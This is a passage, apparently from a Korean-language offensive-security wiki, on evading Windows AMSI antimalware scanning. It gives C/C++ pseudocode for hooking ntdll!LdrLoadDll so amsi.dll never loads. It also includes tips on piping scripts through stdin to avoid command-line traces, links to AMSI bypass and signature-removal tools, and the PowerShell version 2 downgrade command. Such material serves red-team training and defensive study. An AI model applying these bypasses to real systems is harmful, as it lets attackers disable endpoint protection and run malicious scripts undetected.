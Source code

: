 AMSI는 `amsi.dll`이 현재 프로세스에 로드된 후에만 초기화됩니다. 언어에 구애받지 않는 견고한 우회 방법은 요청된 모듈이 `amsi.dll`일 때 오류를 반환하도록 `ntdll!LdrLoadDll`에 사용자 모드 후크를 설치하는 것입니다. 그 결과 AMSI는 로드되지 않으며 해당 프로세스에 대해 스캔이 전혀 수행되지 않습니다.

Implementation outline (x64 C/C++ pseudocode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
if (module && module->Buffer){
UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
if (RtlEqualUnicodeString(module, &amsi, TRUE)){
// Pretend the DLL cannot be found → AMSI never initialises in this process
return STATUS_DLL_NOT_FOUND; // 0xC0000135
}
}
return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
// Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
// e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
참고
- PowerShell, WScript/CScript 및 custom loaders 전반에서 동작합니다 (AMSI를 로드하는 모든 경우에 해당).
- 긴 명령줄 흔적을 피하기 위해 stdin으로 스크립트를 공급하는 방식(`PowerShell.exe -NoProfile -NonInteractive -Command -`)과 함께 사용하세요.
- LOLBins을 통해 실행되는 loaders(예: `regsvr32`가 `DllRegisterServer`를 호출하는 경우)에서 사용되는 것이 관찰되었습니다.

This tools [https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail) also generates script to bypass AMSI.

**탐지된 시그니처 제거**

다음과 같은 도구들 **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** 및 **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** 을 사용하여 현재 프로세스의 메모리에서 탐지된 AMSI 시그니처를 제거할 수 있습니다. 이 도구들은 현재 프로세스의 메모리를 스캔해 AMSI 시그니처를 찾고 NOP 명령으로 덮어써 메모리에서 실질적으로 제거합니다.

**AMSI를 사용하는 AV/EDR 제품**

AMSI를 사용하는 AV/EDR 제품 목록은 **[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)** 에서 확인할 수 있습니다.

**PowerShell 버전 2 사용**
PowerShell 버전 2를 사용하면 AMSI가 로드되지 않으므로 스크립트가 AMSI로 스캔되지 않은 채 실행됩니다. 다음과 같이 실행할 수 있습니다:
```bash
powershell.exe -version 2
```
## PS 로깅
